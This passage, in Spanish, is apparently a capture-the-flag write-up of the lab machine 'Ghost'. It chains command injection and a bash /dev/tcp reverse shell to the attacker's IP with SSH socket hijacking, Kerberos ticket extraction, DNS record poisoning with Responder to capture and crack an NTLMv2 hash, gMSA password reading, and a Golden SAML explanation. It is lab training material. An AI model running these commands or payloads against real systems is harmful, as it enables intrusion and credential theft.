
</p>

```
curl 'http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../proc/self/environ'
```

> $$\text{DEV\_INTRANET\_KEY} = \text{\texttt{!@yqr!X2kxmQ.@Xe}}$$

#### Identificación del Vector de Inyección de Comandos

Con la clave secreta en mano, se analizó el código fuente de la aplicación backend escrita en Rust (`backend/src/api/dev/scan.rs`)

**Evaluación del Endpoint `/api-dev/scan`:** El endpoint requiere que las peticiones incluyan la cabecera `X-DEV-INTRANET-KEY` validada por `DevGuard`. El código que procesa la petición realiza lo siguiente:

<p align="center">

</p>

```rust
let result = Command::new("bash")
    .arg("-c")
    .arg(format!("intranet_url_check {}", data.url))
    .output();
```

La función concatena directamente la cadena enviada en el campo JSON `url` dentro del comando ejecutado por `bash -c` sin realizar ningún tipo de filtrado o escape de caracteres especiales.

**Prueba de Concepto (PoC):** Al enviar una petición POST con un punto y coma `;`:

```JSON
{
  "url": "http://10.10.14.188/; id"
}
```

El sistema terminó ejecutando internamente:

```Bash
bash -c "intranet_url_check http://10.10.14.188/; id"
```

Lo que resultó en la ejecución con privilegios de `root`.

#### Construcción de la Shell Remota (_Reverse Shell_)

Para transformar la inyección de comandos en una sesión interactiva remota, se concatenó una instrucción en Bash que redirige la entrada y salida estándar del proceso hacia un conector de red TCP:

$$\text{\texttt{bash -i >\& /dev/tcp/10.10.14.188/4445 0>\&1}}$$

Uniendo todos los elementos (autenticación mediante la cabecera, endpoint de desarrollo y la carga útil en el cuerpo JSON), se obtiene la petición final enviada con `curl`:

```
curl http://intranet.ghost.htb:8008/api-dev/scan -d '{"url": "http://10.10.14.188/; bash -i >& /dev/tcp/10.10.14.188/4445 0>&1"}' -H "Content-Type: application/json" -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe'
```

Al procesar este _payload_, el servidor web ejecuta la sesión interactiva en segundo plano enviando la conexión hacia el puerto especificado en la máquina atacante. Antes de lanzar el payload activamos el puerto de escucha:

```
nc -lvnp 4445
```

<p align="center">

</p>

### Obteniendo el usuario **florence.ramirez**

#### Enumeración

Tras una ardua investigación el pentesting se dió cuenta que había entrado dentro de un **docker** el principal motivo fue los numeros que estaban al lado del usuario root 

> root@36b733906694:/# 

Lo que determino al final todo fue el script **docker-entrypoint.sh** que se encontró en la carpeta /

```
#!/bin/bash

mkdir /root/.ssh
mkdir /root/.ssh/controlmaster
printf 'Host *\n  ControlMaster auto\n  ControlPath ~/.ssh/controlmaster/%%r@%%h:%%p\n  ControlPersist yes' > /root/.ssh/config
```

Se listó el contenido del directorio `/root/.ssh/controlmaster/`, identificando un socket activo perteneciente al usuario `florence.ramirez@ghost.htb`:

<p align="center">

</p>

#### Conexión SSH a LINUX-DEV-WS01

Este ataque se le conoce como **Secuestro de sesión SSH mediante socket reutilizable (SSH ControlMaster Hijacking)**

Resumen: 

> Se identificó una configuración insegura de multiplexación SSH (`ControlMaster`) combinada con permisos expuestos en la carpeta de sockets. Esto permitió a un atacante con acceso local (o dentro de un contenedor) reutilizar una conexión SSH activa para suplantar la identidad del usuario `florence.ramirez@ghost.htb` y acceder al sistema `dev-workstation` sin necesidad de credenciales ni claves privadas.

Haciendo uso del parámetro `-S` de `ssh`, se forzó al cliente a reutilizar el socket del proceso maestro existente sin requerir autenticación:

```Bash
ssh -S /root/.ssh/controlmaster/florence.ramirez@ghost.htb@dev-workstation:22 florence.ramirez@g

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<p align="center">

</p>

#### Enumeración de LINUX-DEV-WS01

El pentesting uso el comando `klist` y le dió el siguiente resultado:

```
Ticket cache: FILE:/tmp/krb5cc_50
Default principal: florence.ramirez@GHOST.HTB

Valid starting     Expires            Service principal
08/04/26 01:40:01  08/04/26 11:40:01  krbtgt/GHOST.HTB@GHOST.HTB
```

Durante el análisis post-explotación del sistema, se identificó un archivo de caché de credenciales Kerberos (CCACHE) activo perteneciente al dominio `GHOST.HTB` en la ruta `/tmp/krb5cc_50`. La sesión contaba con un _Ticket Granting Ticket_ (TGT) válido emitido para el principal de usuario `florence.ramirez@GHOST.HTB`

Debido a que la caché de tickets Kerberos (`/tmp/krb5cc_50`) es un archivo binario, el pentesting de evaluación procedió a codificar su contenido en formato **Base64** directamente desde la terminal del sistema comprometido. Posteriormente, la cadena resultante fue transferida hacia la estación de control, donde se realizó el proceso inverso de decodificación. Esta técnica permitió preservar la integridad del archivo binario y obtener el **ticket Kerberos (TGT)** asociado al usuario `florence.ramirez` para su posterior análisis e integración en el entorno de pruebas.

```
base64 /tmp/krb5cc_50
```

```bash
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
```

Se guarda en la maquina del pentesting el archivo como **krb5cc_50**. Luego, se ejecuta este comando

```
base64 -d krb5cc_50 > florence.krb5cc

KRB5CCNAME=florence.krb5cc klist
```

<p align="center">

</p>

**Nota importante** El Ticket Kerbero está disponible hasta el día 04/08/26 de las 10:16:01 en el caso en el que usemos este ticket después del horario, no funcionará. Por tanto, tendremos que repetir el proceso otravez para que se nos actualice.

```
export KRB5CCNAME=florence.krb5cc
KRB5CCNAME=florence.krb5cc netexec smb ghost.htb --use-kcache 
```

<p align="center">

</p>

Se valido el usuario **florence.ramirez** con la herramienta **netexec**

### Shell como justin.bradley

#### Instalación bloundHound

Se prepara el siguiente **docker-compose.yml** para levantar BloodHound en el puerto 8081

```
# Copyright 2023 Specter Ops, Inc.
#
# Licensed under the Apache License, Version 2.0
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
#
# SPDX-License-Identifier: Apache-2.0

services:
  app-db:
    image: docker.io/library/postgres:18
    environment:
      - PGUSER=${POSTGRES_USER:-bloodhound}
      - POSTGRES_USER=${POSTGRES_USER:-bloodhound}
      - POSTGRES_PASSWORD=${POSTGRES_PASSWORD:-bloodhoundcommunityedition}
      - POSTGRES_DB=${POSTGRES_DB:-bloodhound}
    # Database ports are disabled by default. Please change your database password to something secure before uncommenting
    # ports:
    #   - 127.0.0.1:${POSTGRES_PORT:-5432}:5432
    volumes:
      - postgres-data:/var/lib/postgresql
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "pg_isready -U ${POSTGRES_USER:-bloodhound} -d ${POSTGRES_DB:-bloodhound} -h 127.0.0.1 -p 5432"
        ]
      interval: 10s
      timeout: 5s
      retries: 5
      start_period: 30s

  graph-db:
    image: docker.io/library/neo4j:4.4.42
    environment:
      - NEO4J_AUTH=${NEO4J_USER:-neo4j}/${NEO4J_SECRET:-bloodhoundcommunityedition}
      - NEO4J_dbms_allow__upgrade=${NEO4J_ALLOW_UPGRADE:-true}
    # Database ports are disabled by default. Please change your database password to something secure before uncommenting
    ports:
      - 127.0.0.1:${NEO4J_DB_PORT:-7687}:7687
      - 127.0.0.1:${NEO4J_WEB_PORT:-7474}:7474
    volumes:
      - ${NEO4J_DATA_MOUNT:-neo4j-data}:/data
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "wget -O /dev/null -q http://localhost:7474 || exit 1"
        ]
      interval: 10s
      timeout: 5s
      retries: 5
      start_period: 30s

  bloodhound:
    image: docker.io/specterops/bloodhound:${BLOODHOUND_TAG:-latest}
    environment:
      - bhe_disable_cypher_complexity_limit=${bhe_disable_cypher_complexity_limit:-false}
      - bhe_enable_cypher_mutations=${bhe_enable_cypher_mutations:-false}
      - bhe_graph_query_memory_limit=${bhe_graph_query_memory_limit:-2}
      - bhe_database_connection=user=${POSTGRES_USER:-bloodhound} password=${POSTGRES_PASSWORD:-bloodhoundcommunityedition} dbname=${POSTGRES_DB:-bloodhound} host=app-db
      - bhe_neo4j_connection=neo4j://${NEO4J_USER:-neo4j}:${NEO4J_SECRET:-bloodhoundcommunityedition}@graph-db:7687/
      - bhe_recreate_default_admin=${bhe_recreate_default_admin:-false}
      - bhe_graph_driver=${GRAPH_DRIVER:-neo4j}
      ### Add additional environment variables you wish to use here.
      ### For common configuration options that you might want to use environment variables for, see `.env.example`
      ### example: bhe_database_connection=${bhe_database_connection}
      ### The left side is the environment variable you're setting for bloodhound, the variable on the right in `${}`
      ### is the variable available outside of Docker
    ports:
      ### Default to localhost to prevent accidental publishing of the service to your outer networks
      ### These can be modified by your .env file or by setting the environment variables in your Docker host OS
      - ${BLOODHOUND_HOST:-127.0.0.1}:${BLOODHOUND_PORT:-8081}:8080
    ### Uncomment to use your own bloodhound.config.json to configure the application
    # volumes:
    #   - ./bloodhound.config.json:/bloodhound.config.json:ro
    depends_on:
      app-db:
        condition: service_healthy
      graph-db:
        condition: service_healthy

volumes:
  neo4j-data:
  postgres-data:
```

Se levanta el contenedor con el siguiente comando:

```
docker-compose up -d
```

En el navegador se pone lo siguiente: 

```
http://127.0.0.1:8081
```

comando para recuperar la contraseña

```
sudo docker-compose logs bloodhound | grep -A 5 -i "Initial Password"
```

usuario --> admin <br>
contraseña --> `PRTlkoM55yWHq7yd0lk2r2_PXiKGjrZf`

**Mi contraseña de bloodhund no es la misma que la tuya tenlo en cuenta, por eso hago hincapie en realizar el comando de recuperación de contraseña.**

Se tendrá que instalar esta versión para descomprimir el **.zip** porque es compatible con esta **v9.5.1 de BloodHound**

```
pipx install bloodhound-ce
```

Se usará el siguiente comando para extraer .zip

```
KRB5CCNAME=florence.krb5cc bloodhound-ce-python -c all -k -no-pass -d ghost.htb -u florence.ramirez --use-ldaps -d ghost.htb -ns 10.129.231.105 --zip
```

#### Enumeración

En los foros, **justin.bradley** se quejaba de que sus scripts de automatización para comprobar los resultados de la canalización funcionan de maravilla en **Gitea**, pero cuando intenta adaptarlos para que funcionen en `bitbucket.ghost.htb`, no funcionan:

<p align="center">

</p>

La respuesta de **kathryn.holland** es que la entrada DNS aún no está configurada:

<p align="center">

</p>

Le dicen a Justin que siga ejecutando el guion, ¡ya que pronto estarán listos!

Ahora que puedo autenticarme en el dominio, ¡cualquier usuario del dominio puede crear entradas DNS inexistentes! Si logro crear una para `bitbucket.ghost.htb`, el script podría intentar autenticarse conmigo y podría capturar el hash NetNTLMv2.

**justin.bradley** es miembro del grupo de usuarios de **Remote Management**, así que si puedo comprometer su cuenta, probablemente pueda obtener una shell usando WinRM:

<p align="center">

</p>

#### Explicación de Ataque de Suplantación de DNS (DNS Shadowing)

Descargamos este [repositorio](https://github.com/dirkjanm/krbrelayx/)

> `dnstool.py` es una herramienta que sirve para **crear, modificar o borrar registros en la agenda de direcciones (servidor DNS) de un Active Directory**.

```
git clone https://github.com/dirkjanm/krbrelayx.git
```

En Active Directory, por defecto, cualquier usuario autenticado del dominio (en este caso, `florence.ramirez`) tiene permisos para crear o modificar registros DNS dentro de las zonas del dominio mediante **Active Directory Integrated DNS (ADIDNS)**. Al ejecutar este comando:

```
KRB5CCNAME=../florence.krb5cc python3 dnstool.py -u 'ghost.htb\florence.ramirez' -p "" -k -a add -r bitbucket --zone ghost.htb --data 10.10.14.188 -dns-ip 10.129.231.105 DC01.ghost.htb
```

- `dnstool.py` se conectó por LDAP al Controlador de Dominio (DC).
- Creó un nuevo registro DNS tipo **A** llamado `bitbucket.ghost.htb` apuntando a la IP de tu máquina de ataque (`10.10.14.188`).

**¿Por qué ocurre esto?**

- El usuario `justin` intentó acceder a `bitbucket.ghost.htb`.

- Le preguntó al servidor DNS del dominio (`10.129.231.105` / DC): _"¿Cuál es la IP de bitbucket.ghost.htb?"_.

- Como se había inyectado el registro DNS, el DC le respondió: _"Está en la IP 10.10.14.188"_ (mi máquina).

Antes de ejecutar el anterior comando, se tendrá que encender el **Responder** en mi máquina, que se quedará esperando.

```
sudo responder -I tun0
```

<p align="center">

</p>

**Responder atrapo el hash** 

Cuando la máquina de `justin` intentó conectarse a tu IP (`10.10.14.188`):

1. **Responder** (que estaba escuchando en tu máquina) fingió ser el servidor legítimo (HTTP/SMB/etc.).

2. Windows, al intentar autenticarse automáticamente contra lo que creía que era un recurso de la red interna, inició el proceso de autenticación **NTLM Challenge-Response**.

3. Responder le envió un "Challenge" y la máquina de Justin devolvió la respuesta cifrada con su clave: **el hash NetNTLMv2 de `justin`**.

```
justin.bradley::ghost:3c3b5cdd74a2308c:4DB24278854BC506DD3E3F1BC156AF1C:01010000000000002D9BC7CCFD23DD01D24F7F5832E048C8000000000200080044004E0044004F0001001E00570049004E002D004C005600490031004A004A005400370039004B0059000400140044004E0044004F002E004C004F00430041004C0003003400570049004E002D004C005600490031004A004A005400370039004B0059002E0044004E0044004F002E004C004F00430041004C000500140044004E0044004F002E004C004F00430041004C0008003000300000000000000000000000004000007B8C5ADF7AFAFE417582C792A09168E0999D63D57CDC175C075B97FAC83FA9CE0A001000000000000000000000000000000000000900300048005400540050002F006200690074006200750063006B00650074002E00670068006F00730074002E006800740062000000000000000000
```

> NTLMv2 Hash del usuario **justin bradley**

En conclusión:

$$\text{Usuario Florence (Ticket)} \xrightarrow{\text{dnstool.py}} \text{Crear DNS bitbucket.ghost.htb} \xrightarrow{\text{Apunta a tu IP}} \text{Justin navega/conecta} \xrightarrow{\text{Responder}} \text{Hash NetNTLMv2}$$

$$\text{Florence User (Kerberos Ticket)} \xrightarrow{\text{dnstool.py}} \text{Create DNS Record: bitbucket.ghost.htb} \xrightarrow{\text{Points to Attacker IP}} \text{Justin Connects} \xrightarrow{\text{Responder}} \text{NetNTLMv2 Hash Captured}$$

#### Crackear NTLMv2 de justin bradley

```
hashcat -m 5600 hashjustin /usr/share/wordlists/rockyou.txt
```

Credenciales --> `justin.bradley`:`Qwertyuiop1234$$`

#### Winrm

```
netexec winrm DC01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
```

<p align="center">

</p>

```
evil-winrm -i dc01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
```

Dentro del escritorio del usuario **justin.bradley** se encontrará la flag del usuario.

> *Evil-WinRM* PS C:\Users\justin.bradley\desktop> type user.txt
`4da50e0d61****************************`

## Escalada de Privilegios

### Shell como adfs_gmsa$

#### Enumeración 

Si nos situamos en la carpeta **users** visualizaremos un nuevo usuario llamado `adfs_gmsa$`

>Directory: C:\Users
>Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          2/2/2024   5:30 PM                adfs_gmsa$
d-----         1/30/2024   9:19 AM                Administrator
d-----          2/4/2024   1:48 PM                justin.bradley
d-r---         1/30/2024   9:19 AM                Public

#### BloodHound

En **bloodhound** visualizaremos que correlación tiene el usuario **justin.bradley** al usuario `adfs_gmsa$`.

<p align="center">

</p>

> El permiso **`ReadGMSAPassword`** es un privilegio de Active Directory que permite a una cuenta (usuario, grupo o equipo) **leer la contraseña en texto plano de una cuenta gMSA** (_group Managed Service Account_ o Cuenta de Servicio Administrada de Grupo).

Eso quiere decir que el usuario **justin.bradley** puede leer la contraseña en texto plano de la cuenta `adfs_gmsa$`

En mi máquina ejecuto el siguiente comando:

```
netexec ldap dc01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
```

```bash
LDAP        10.129.231.105  389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:ghost.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.231.105  389    DC01             [+] ghost.htb\justin.bradley:Qwertyuiop1234$$ 
LDAP        10.129.231.105  389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.231.105  389    DC01             Account: adfs_gmsa$           NTLM: 3156bf15d6e86ff4e402a720c767c172     PrincipalsAllowedToReadPassword: ['DC01$', 'justin.bradley']
```

#### Golden SAML

> **Golden SAML**  es un un abuso del diseño de la infraestructura de autenticación federada cuando las claves criptográficas centrales quedan comprometidas.

#### Cómo funciona el flujo de autenticación legítimo (SAML)?

1. **Proveedor de Identidad (IdP):** En este caso, ADFS actúa como la entidad emisora de identidad que verifica las credenciales del usuario.

2. **Proveedor de Servicios (SP):** Es la aplicación final (como `core.ghost.htb`) a la que el usuario quiere acceder.

3. **La Aserción SAML:** Cuando el usuario se autentica en ADFS, ADFS genera una respuesta XML (`SAMLResponse`) que afirma quién es el usuario y qué permisos tiene. Para asegurar que la aplicación confíe en esta respuesta, ADFS la **firma digitalmente** con una clave privada interna.
    
4. La aplicación receptora verifica la firma digital usando el certificado público de ADFS. Si la firma es válida, confía ciegamente en la identidad del usuario.

#### ¿En qué consiste el ataque Golden SAML?

El ataque ocurre cuando un atacante logra obtener acceso a la **clave privada de firma de tokens** de ADFS. El proceso descrito en el texto se divide en las siguientes etapas:

1. **Compromiso previo:** El atacante ya controla la cuenta de servicio de ADFS (`ADFS_GMSA$`), lo que le otorga permisos para consultar y volcar la configuración del servidor.
    
2. **Extracción del material clave (Dump):** Usando la herramienta `ADFSDump.exe`, extrae la clave privada de firma de tokens y el certificado correspondiente almacenados en Active Directory / base de datos de ADFS.
    
3. **Falsificación (Spoofing):** Con la clave privada en su poder, el atacante no necesita contraseñas de usuarios. Usando `ADFSSpoof.py`, construye un objeto XML `SAMLResponse` totalmente falso firmado legítimamente. En dicho XML declara ser cualquier usuario que desee (en este ejemplo, `Administrator@ghost.htb`).
    
4. **Persistencia y Acceso Ilimitado:** El atacante envía esta respuesta falsificada a la aplicación web. La aplicación valida la firma digital, determina que proviene del servidor ADFS oficial y le otorga una sesión válida como Administrador.

#### Explotación de Golden SAML

A mi personalmente la sesión con la herramienta **evil-winrm** con el usuario **adfs_gmsa$** me es bastante inestable pero bueno aun si llevamos acabo el ataque

```
evil-winrm -i 10.129.231.105 -u adfs_gmsa$ -H '4b020ee46c62ff8181f96de84088ff37'
```

Para conseguir el ejecutable **ADFSDump.exe** haremos lo siguiente.

> **ADFSDump.exe** consiste en la obtención del certificado privado de firma de tokens, que es el elemento indispensable para llevar a cabo un ataque de **Golden SAML**

```
git clone https://github.com/mandiant/ADFSDump.git

cd ADFSDump

